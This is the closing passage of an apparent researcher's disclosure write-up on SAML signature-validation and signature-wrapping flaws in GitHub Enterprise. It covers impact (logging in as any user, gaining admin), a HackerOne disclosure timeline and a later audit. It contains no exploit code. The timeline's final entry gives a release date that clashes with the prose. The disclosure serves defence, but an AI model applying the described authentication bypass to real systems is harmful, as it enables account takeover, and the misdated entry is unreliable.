   other Service Provider logs, mailing list archives, StackOverflow
   Questions , etc.

Note that an external attacker has the inherent difficulty as they would need a valid Assertion from a trusted Identity Provider in order to mount the attack. However the fact that the Assertion can be

- expired

- or even destined to another Service Provider

significantly raises the chances.


Impact
``````

-  An external attacker taking advantage of this can authenticate to a GHE instance as any user

-  An internal attacker taking advantage of this can authenticate to a GHE instance as any user

-  An internal attacker taking advantage of this can elevate their rights to admin in a GHE instance

Disclosure
``````````

I reported this to Github security via Hackerone on 16th of January. It was acknowledged and triaged after a couple of hours and resolved on January 31st with GHE version `2.8.7 <https://enterprise.github.com/releases/2.8.7/notes>`_ 


Timeline
---------

- 2017-01-10: Incorrect XML Signature validation vulnerability discovered and reported

- 2017-01-10: Report acknowledged

- 2017-01-11: Report triaged

- 2017-01-12: Mitigation released with v. 2.8.6 and bounty awarded

- 2017-01-16: XSW vulnerability discovered and reported

- 2017-01-16: Report acknowledged and triaged

- 2017-01-27: Asked for update on mitigation/release

- 2017-01-12: Mitigation released with v. 2.8.7 and bounty awarded


Full SAML Implementation Assessment
------------------------------------

Following the above reports I received a research grant in order to continue looking into Github's SAML implementation. I performed a full (to the extend that the agreed timeframe and my off-work availability allowed) security audit which uncovered a couple of minor issues and a set of suggestions/recommendations about the implementation in order to minimize the possibility of similar issues in the future. 


Outro
------

I enjoyed finding and writing these so I hope if you made it through to the end, you did too. Working with the Github Security guys was a bliss and I can verify first hand that their approach towards their bounty program is as serious and as cool as they describe it on their recent `blog post <https://githubengineering.com/githubs-bug-bounty-workflow/>`_


